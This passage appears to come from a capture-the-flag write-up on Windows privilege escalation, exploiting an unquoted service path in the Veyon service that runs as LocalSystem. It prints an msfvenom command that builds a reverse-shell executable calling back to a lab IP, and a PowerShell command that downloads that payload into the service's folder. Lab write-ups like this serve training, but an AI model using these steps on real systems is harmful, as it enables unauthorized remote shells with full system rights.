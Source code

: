 ![Credentials](/assets/images/htbbiz2021-parkor/credss.png)

Veyon Service
![Veyon Service](/assets/images/htbbiz2021-parkor/veyon.png)

**Service Exploits - Unquoted Service Path**

From veyon service `sc.exe qc VeyonService`
```bash
PS C:\temp> sc.exe qc VeyonService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VeyonService
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Veyon\Veyon Service\Veyon\veyon-service.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Veyon Service
        DEPENDENCIES       : Tcpip
                           : RpcSs
        SERVICE_START_NAME : LocalSystem
PS C:\temp> 
```
create msfvenom exploit
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.172 LPORT=4445 -f exe > Veyon.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```
transfer to `C:\Program Files\Veyon\`
```bash
PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.172/Veyon.exe', 'C:\Program Files\Veyon\Veyon.exe')
PS C:\temp> dir "C:\Program Files\Veyon\"


    Directory: C:\Program Files\Veyon


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/25/2021   4:02 AM                Veyon Service                                                         
-a----        7/27/2021   7:01 AM           7168 Veyon.exe                                                             


PS C:\temp> 
```

